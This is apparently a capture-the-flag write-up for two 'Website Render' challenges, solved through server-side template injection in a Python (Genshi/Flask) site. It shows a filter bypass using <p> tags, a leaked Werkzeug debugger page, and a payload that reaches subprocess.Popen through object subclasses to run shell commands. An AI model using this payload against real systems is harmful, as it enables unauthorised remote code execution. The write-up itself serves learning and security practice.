









# Website Render

The website was the same for the 2 challenges. It was a simple website that rendered html.




## Website Render 1



To exploit this website, I used a SSTI (Server Side Template Injection). this vulnerability allows to execute code by including variables.

Firstly, this website didn't allowed to parse code that wasn't in html tags. To bypass this protection, I simply put all my payloads between `<p>` tags.


I tried to trigger the exploit by using `${var}`.



Full output : 

```html
<!doctype html>
<html lang=en>
  <head>
    <title>genshi.template.eval.UndefinedError: "haha" not defined
 // Werkzeug Debugger</title>
    <link rel="stylesheet" href="?__debugger__=yes&amp;cmd=resource&amp;f=style.css">
    <link rel="shortcut icon"
        href="?__debugger__=yes&amp;cmd=resource&amp;f=console.png">
    <script src="?__debugger__=yes&amp;cmd=resource&amp;f=debugger.js"></script>
    <script>
      var CONSOLE_MODE = false,
          EVALEX = true,
          EVALEX_TRUSTED = false,
          SECRET = "FwWhDDaB2pGJMQ84Qck9";
    </script>
  </head>
  <body style="background-color: #fff">
    <div class="debugger">
<h1>UndefinedError</h1>
<div class="detail">
  <p class="errormsg">genshi.template.eval.UndefinedError: &#34;haha&#34; not defined
</p>
</div>
<h2 class="traceback">Traceback <em>(most recent call last)</em></h2>
<div class="traceback">
  <h3></h3>
  <ul><li><div class="frame" id="frame-140111860320000">
  <h4>File <cite class="filename">"&lt;string&gt;"</cite>,
      line <em class="line">1</em>,
      in <code class="function">&lt;Expression &#39;haha&#39;&gt;</code></h4>
  <div class="source "></div>
</div>
</ul>
  <blockquote>genshi.template.eval.UndefinedError: &#34;haha&#34; not defined
</blockquote>
</div>

<div class="plain">
    <p>
      This is the Copy/Paste friendly version of the traceback.
    </p>
    <textarea cols="50" rows="10" name="code" readonly>Traceback (most recent call last):
  File &#34;&lt;string&gt;&#34;, line 1, in &lt;Expression &#39;haha&#39;&gt;
genshi.template.eval.UndefinedError: &#34;haha&#34; not defined
</textarea>
</div>
<div class="explanation">
  The debugger caught an exception in your WSGI application.  You can now
  look at the traceback which led to the error.  <span class="nojavascript">
  If you enable JavaScript you can also use additional features such as code
  execution (if the evalex feature is enabled), automatic pasting of the
  exceptions and much more.</span>
</div>
      <div class="footer">
        Brought to you by <strong class="arthur">DON'T PANIC</strong>, your
        friendly Werkzeug powered traceback interpreter.
      </div>
    </div>

    <div class="pin-prompt">
      <div class="inner">
        <h3>Console Locked</h3>
        <p>
          The console is locked and needs to be unlocked by entering the PIN.
          You can find the PIN printed out on the standard output of your
          shell that runs the server.
        <form>
          <p>PIN:
            <input type=text name=pin size=14>
            <input type=submit name=btn value="Confirm Pin">
        </form>
      </div>
    </div>
  </body>
</html>

<!--

Traceback (most recent call last):
  File "<string>", line 1, in <Expression 'haha'>
genshi.template.eval.UndefinedError: "haha" not defined


-->
```

As we can see at the end of the error code, the language used was python, which mean it had a great probability of being powed up by Flask.

To run code in with this vulnerability, it's necessary to find a library like os or subrocess. To do it, I used the statement.

```python
"".__class__.__mro__[1].__subclasses__()
```

which is a way to list the disponible libraries.



If we search in this output, we can find subrpocess.Popen



This command allows to execute code.

Now that I had it, I had to find the index of this librarie. After some tries, I found that it was 528.

So, I used this command to do a ls.

```
<p>${"".__class__.__mro__[1].__subclasses__()[528]("ls", shell=True, stdout=-1).communicate()}</p>
```



We can see that there is a directory called flag. With another ls, I found the file flag.txt in it.



So here we got the first flag, unlocking the second part.


## Website Render 2



This challenge was similar to the first one. The only difference was that the flag was in a different directory, preventing a hacker to find it without a ls.



With the payload we crafted for the first challenge, it was quite easy solving the 2 challenges.
